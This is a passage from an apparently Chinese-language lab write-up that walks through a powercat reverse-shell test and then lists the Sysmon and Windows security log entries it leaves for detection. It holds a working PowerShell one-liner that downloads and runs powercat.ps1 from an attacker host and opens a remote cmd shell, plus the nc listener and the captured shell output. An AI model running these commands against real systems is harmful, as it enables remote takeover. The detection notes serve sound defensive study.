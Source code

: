 2. **开启HTTP服务**  
   在`powercat`目录下启动简单HTTP服务器：
   ```bash
   python2 -m SimpleHTTPServer 80
   ```

3. **设置监听**  
   在攻击机上启动`nc`监听反弹Shell：
   ```bash
   nc -lvp 1234
   ```

4. **靶机执行Payload**  
   在靶机上运行以下PowerShell命令，下载并执行`powercat.ps1`：
   ```cmd
   powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.126.146/powercat.ps1');powercat -c 192.168.126.146 -p 1234 -e cmd"
   ```

5. **验证反弹Shell**  
   检查攻击机的`nc`终端，确认收到反弹Shell：
   ```bash
   nc -lvp 1234
   listening on [any] 1234 ...
   192.168.126.149: inverse host lookup failed: Unknown host
   connect to [192.168.126.146] from (UNKNOWN) [192.168.126.149] 49339
   Microsoft Windows [Version 6.1.7601]
   Copyright (c) 2009 Microsoft Corporation. All rights reserved.
   ```

## 测试留痕

```log
#sysmon日志
EventID: 1
Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: Windows PowerShell
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: PowerShell.EXE
CommandLine: powershell  -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.126.146/powercat.ps1');powercat -c 192.168.126.146 -p 1234 -e cmd"

# win7安全日志
EventID: 4688
进程信息:
新进程 ID: 0x330
新进程名: C:\Windows\System32\cmd.exe
令牌提升类型: TokenElevationTypeLimited (3)

EventID: 4688
进程信息:
新进程 ID: 0xa44
新进程名: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe

#Powershell V5(含V5以上)配置审核策略，可以达到记录命令行参数的效果。通过命令行参数进行监控分析。当然也可以采用配置windows server 2008(不含2008)以上审核进程创建策略，同样也可以对命令行参数进行记录，最后达到监控效果。
```
